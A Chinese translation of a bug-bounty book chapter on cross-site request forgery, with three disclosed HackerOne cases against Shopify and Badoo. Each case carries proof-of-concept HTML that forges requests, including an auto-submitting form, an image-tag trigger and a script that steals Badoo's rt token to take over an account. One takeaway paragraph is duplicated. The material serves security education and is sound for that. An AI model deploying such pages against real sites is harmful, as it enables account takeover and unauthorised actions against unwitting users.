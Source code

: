 ## **八、跨站請求偽造**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**

跨站請求偽造，或CSRF攻擊，在惡意網站，電子郵件，即使消息，應用以及其它，使用戶的Web瀏覽器執行其它站點上的一些操作，並且用戶已經授權或登錄了該站點時發生。通常會在用戶不知道操作已經執行的情況下發生。

CSRF 攻擊的影響取決於收到操作的站點。這裡是一個例子：
1. Bob 登錄了它的銀行帳戶，執行了一些操作，但是沒有登出。
2. Bob 檢查了它的郵箱，並點擊了一個陌生站點的鏈接。
3. 陌生站點向 Bob 銀行站點發送請求來進行轉賬，並傳遞第一步中，保存 Bob 銀行會話的 Cookie 信息。
Bob 的銀行站點收到了來自陌生（惡意）站點的請求，沒有使用 CSRF Token 的情況下處理了轉賬。

更有意思的是這個想法，也就是惡意網站的鏈接可以包含有效的 HTML，`<imgsrc="www.malicious_site.com">`，並且並不需要 Bob 點擊鏈接。如果 Bob 的設備（例如瀏覽器）渲染了這個圖片，它會向`malicious_site.com`發送請求，來完成 CSRF 攻擊。
<p>
現在，知道了 CSRF 的危險之後，它們可以以多種方式防範。最流行的方式大概是 CSRF Token，它必須隨著潛在的資料修改氣你去一起提交（例如 POST 請求）。這裡，Web 應用（例如 Bob 的銀行）會生成一個兩部分的 Token，一個 Bob 會收到，另一個由應用保管。
<p>
當 Bob 試圖提交轉賬請求時，它就需要提交 Token，銀行會驗證它這一邊的 Token。
<p>
現在，對於 CSRF 和 CSRF Token 來說，跨域資源共享似乎越來越普遍了。或者只是我注意到是這樣。
本質上，CORS 限制了資源，包括 JSON 響應，被外域訪問。換句話說，當 CORS 用於保護站點時，你就不能編寫 JavaScript 來呼叫目標應用，讀取響應或者進行另一個呼叫，除非目標站點允許。
<p>

似乎這非常令人混亂，使用 JavaScript，嘗試呼叫`HackerOne.com/activity.json`，讀取響應並進行二次呼叫。你也會在下面的例子 #3 看到它的重要性，以及潛在的原理。

<p>

最後，重要的是要記住（感謝 Jobert Abma 補充），並不是每個不帶有 CSRF Token 的請求都帶有 CSRF 問題。一些站點可能執行額外的檢查，例如比較 Referer 協議頭（雖然可能出錯，並且有一些繞過它的案例）。它是一個字段，標識了鏈接到被請求資源的頁面地址。換句話說，如果 POST 呼叫中的 Referer 並不來源於收到 HTTP 請求的相同站點，站點可能不允許該呼叫，因此能夠完成和驗證 CSRF Token 的相同操作。此外，不是每個站點在創建或者定義 Token 時都使用csrf術語。例如，在 Badoo 它使用rt參數，我們下面會討論。

>連結
>
>[查看OWASP 測試指南。](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)


---

## **示例**

## **1. Shopify 導出已安裝的用戶**

```
難度：低

URL：https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users
報告鏈接：https://hackerone.com/reports/96470
報告日期：2015.10.29
獎金：$500
描述：
```
Shopify 的 API 提供了一個終端，用於導出已安裝用戶的列表，通過上面給出的 URL。在站點能夠呼叫該終端，並且讀取信息的地方存在漏洞，因為 Shopify 在該呼叫中並沒有包含任何 CSRF Token 驗證。所以，下面的 HTML 程式碼可以用於代表任何未知受害者提交表單。

```html
<html>
    <head><title>csrf</title></head>
    <body onLoad="document.forms[0].submit()">
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET">
        </form>
    </body>
</html>
```
這裡，通過僅僅瀏覽站點，JavaScript 就會提交表單，它實際上包含 Shopify API 的 GET 請求，使用受害者的瀏覽器，並提供 Shopify 的 Cookie。

>重要結論
>
>擴展你的攻擊領域，並從站點轉向它的 API 終端。 API 提供了極大的漏洞可能性，所以最好牢記他，尤其是當你知道 API 
>可能開發完畢，或者在站點實際開發之後可用的時候。


---

## **2. Shopify Twitter 斷開連接**

```
難度：低

URL：https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect
報告鏈接：https://hackerone.com/reports/111216
報告日期：2016.1.17
獎金：$500
```
## **描述：**

Shopify 提供了 Twitter 的繼承，來允許店主轉推它們的商品。與之相似，也提供了功能來斷開推特帳戶和被連接商店的鏈接。
<p>
斷開 Twitter 帳戶的 URL 寫在了上面。當進行呼叫時，Shopify 不驗證 CSRf Token，這可能會允許惡意人員代表受害者進行 GET 呼叫，因此斷開受害者的商店與 Twitter 的連接。
<p>
在提供這份報告的時候，WeSecureApp 提供了下面的漏洞請求示例 - 要注意下面的img標籤的使用，它對漏洞 URL 進行呼叫：

```
GET /auth/twitter/disconnect HTTP/1.1
Host: twitter-commerce.shopifyapps.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0
Accept: text/html, application/xhtml+xml, application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://twitter-commerce.shopifyapps.com/account
Cookie: _twitter-commerce_session=REDACTED
Connection: keep-alive
```
由於瀏覽器進行 GET 請求來獲取給定 URL 處的圖片，並且不驗證任何 CSRF Token ，用戶的商店現在已斷開連接：

```html
<html>
    <body>
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect">
    </body>
</html>
```

>重要結論
>
>這種情況下，這個漏洞可以使用代理服務器來發現，例如 Burp 或者 Firefox 的 Tamper Data，來觀察發送給 Shopify 
>的請求，並主要到這個請求使用 GET 方式來執行。由於這是個破壞性操作，而 GET 請求不應該修改任何服務器上的資料，這應該是一些需要關注的事情。

---

## **3. Badoo 帳戶的完整控制**

```
難度：中

URL：https://badoo.com
報告鏈接：https://hackerone.com/reports/127703
報告日期：2016.4.1
獎金：$852
描述：
```
如果你仔細檢查 Badoo ，你會發現，它們通過包含 URL 參數`rt`來防禦 CSRF，它只有 5 個位數（至少在我寫這篇的時候）。雖然我在 Badoo 入駐 HackerOne 的時候就注意到了，我並沒有找到利用它的方式，但是`zombiehelp54`找到了。
<p>
發現`rt`參數以及其值之後，它也注意到了，參數一戶在所有 JSON 響應中都返回。不幸的是，這並沒有什麼幫助，因為 CORS 保護了 Badoo，攻擊者無法讀取這些響應，所以它繼續挖掘。
<p>

最終，文件`https://eu1.badoo.com/worker-scope/chrome-service-worker.js`包含了`rt`值。更好的是，這個文件可以由攻擊者任意讀取，而不需要受害者做什麼，除了瀏覽這個惡意頁面。這裡是它提供的程式碼。

```html
<html>
<head>
<title>Badoo account take over</title>
<script src=https://eu1.badoo.com/worker-scope/chrome-service-worker.js?ws=1></s\ cript>
</head>
<body>
<script>
function getCSRFcode(str) {
    return str.split('=')[2];
}
    window.onload = function(){
    var csrf_code = getCSRFcode(url_stats);
    csrf_url = 'https://eu1.badoo.com/google/verify.phtml?code=4/nprfspM3yfn2SFUBear08KQaXo609JkArgoju1gZ6Pc&authuser=3&session_state=7cb85df679219ce71044666c7be3e037ff54b560..a810&prompt=none&rt='+ csrf_code;
    window.location = csrf_url;
};
</script>
```
本質上，當受害者加載此頁面時，它會呼叫Badoo 的腳本，為用戶獲取rt參數，之後代表受害者進行呼叫，這裡，它將受害者的帳戶鏈接到了攻擊者的，本上上完成了帳戶的控制。

>重要結論
>
>無風不起浪。這裡，攻擊者註意到了rt參數在不同位置返回，特別是 JSON 響應，
>因此，它正確猜測了，它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。重要結論
>
>無風不起浪。這裡，攻擊者註意到了rt參數在不同位置返回，特別是 JSON 響應，因此，它正確猜測了，
>它可能出現在一些可以利用的地方，這裡是 JS 文件。
>繼續幹吧，如果你覺得一些東西可能會發生，一定要繼續挖掘。當你訪問目標站點或應用時，使用 Burp 檢查所有被呼叫的資源。

## **總結**

<p>

CSRF 表示另一個攻擊向量，並且可能在受害者不知道，或者不主動執行操作的情況下發生。 CSRF 漏洞的發現可能需要一些機智，同樣，也需要測試任何東西的渴望。
<p>
	
通常，如果站點執行 POST 請求，Web 表單都統一由應用框架保護，例如 Rails，但是 API 又是另外一個事情。例如， Shopify 使用了 RoR 編寫，它對所有表單默認提供了 CSRF 保護（當然也可以關掉）。但是，顯而易見，這對於使用框架創建的 API 不一定成立。最後，一定要觀察任何通過 GET 請求執行的，修改服務器資料的呼叫（例如刪除操作）。